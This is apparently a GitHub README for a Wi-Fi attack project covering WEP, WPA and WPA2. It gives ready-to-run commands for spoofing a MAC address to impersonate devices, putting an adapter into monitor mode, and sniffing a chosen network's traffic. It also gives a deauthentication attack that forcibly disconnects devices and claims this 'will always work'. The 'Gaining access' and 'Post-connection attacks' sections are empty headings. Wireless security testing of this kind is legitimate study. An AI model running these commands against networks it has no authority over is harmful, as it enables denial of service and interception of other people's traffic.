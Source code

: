 # Projet-WiFi

* Pre-connection attacks, gaining access & post-connection attacks on WEP, WPA & WPA2.

### Prerequisites
0. Linux + wireless adapter.

1. Change the MAC address of your wireless adapter, either for hiding a computer on a network or for allowing it to impersonate another network device.

```
ifconfig wireless_adapter_name down
ifconfig wireless_adapter_name hw ether 00:19:35:89:88:14
ifconfig wireless_adapter_name up
```

2. Change your wireless interface to "Monitor" mode. By default, the mode of wireless devices is set to "Managed", that means our wireless device will only capture packets that have our device's MAC address as the destination MAC.

```
ifconfig wireless_adapter_name down
airmon-ng check kill (kill all interference processes)
iwconfig wireless_adapter_name mode monitor
ifconfig wireless_adapter_name up
iwconfig
```

### Pre-connection attacks
1. Discover networks around you:
```
airodump-ng wireless_adapter_name
```
![Discover networks around you](https://user-images.githubusercontent.com/64968597/134020395-c7a67e4b-d7d0-4a84-a155-8a67fdf449c9.JPG)

2. Sniff packet from a specified network:
```
airodump-ng --bssid target_MAC --channel N (--write file_name) wireless_adapter_name
```

3. Deauthentication attack (disconnect any device from the network):

This attack will always work ! The only way around it is to change the MAC address on the target machine.
```
aireplay-ng --deauth time_out -a router_addr -c target_mac_addr wireless_adapter_name
```
 

✔️ 




### Gaining access

### Post-connection attacks

✔️
